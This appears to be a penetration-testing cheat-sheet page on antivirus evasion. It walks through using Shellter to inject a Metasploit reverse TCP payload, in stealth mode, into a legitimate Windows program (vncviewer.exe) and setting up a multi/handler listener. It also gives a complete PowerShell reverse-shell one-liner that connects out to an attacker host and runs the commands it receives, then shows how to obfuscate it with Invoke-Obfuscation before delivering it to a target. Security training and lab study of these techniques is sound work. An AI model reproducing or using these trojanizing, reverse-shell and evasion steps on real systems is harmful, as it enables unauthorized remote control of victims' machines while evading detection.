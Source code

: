 # Obfuscation

## Shellter

{% embed url="https://www.shellterproject.com/" %}

Shellter is a tool that permit you to inject malicious code into native Windows application (32 bit).

### Install and Run Shellter

This installation guide is for kali linux OS

```bash
# Install shellter packets
sudo apt update && sudo apt install -y shellter

# Install architecture and wine packet to run .exe windows executable
sudo dpkg --add-architecture i386 && sudo apt update && sudo apt -y install wine32

# run .exe executable with wine
cd /usr/share/windows-resources/shellter
sudo wine shellter.exe
```

### Using Shellter

Before using shellter, we must chose a Windows executable program into which we will inject malicious code or revshell cod.

```bash
# Select Windows applitation to inject.
cp /usr/share/windows-binaries/vncviewer.exe .

# run prigram with wine
sudo wine shellter.exe

# Choose Operation Mode 
> A

# Choose Portable Executable Target
> /PATH/TO/vncviewer.exe

# Enable Stealth Mode
> Y

# Select if we want to use listed payload or custom payload
> L # listed
> C # custom

# Select the listed payload
> 1 # metasploit reverse tcp payload

# Set LHOST
> $LISTENER_IP

# Set LPORT
> $LISTENER_PORT
```

### Use metasploit to get connection

If we choose the Metasploit Payload to inject into Windows Executable, we can set up a listener in msfconsole to connect with the target.

```bash
# Set multi/handler with the same LHOST and LPORT of the injected payload
service postgresql start && msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
run
```

***

## Powershell-code obfuscation

### Invoke-Obfuscation

Invoke-Obfuscation is an open source PowerShell v2.0+ compatible PowerShell command and script obfuscator

{% embed url="https://github.com/danielbohannon/Invoke-Obfuscation" %}

#### installation

<pre class="language-bash"><code class="lang-bash"># INVOKE-OBFUSCATION PowerShell script - Install
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update &#x26;&#x26; sudo apt install -y powershell

# Copy Powershell RevShell command in a file
<strong>touch shell.ps1
</strong><strong>$client = New-Object System.Net.Sockets.TCPClient('LHOST',LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&#x26;1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
</strong>
# Start powershell on linux system
pwsh

# Import downloaded module
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
</code></pre>

#### setup and running

```bash
# Run the script
Invoke-Obfuscation

# Set script to obfuscate
SET SCRIPTPATH /PATH/TO/shell.ps1

# Choose a option
## Encoding a powershell command
ENCODING

## AST obfuscation
AST

## Select all elements of script
ALL

# copy the obfuscated code in a new file .ps1

# transfer script into target

# setup a listener port on kali with netcat

# run the script on target machine
```
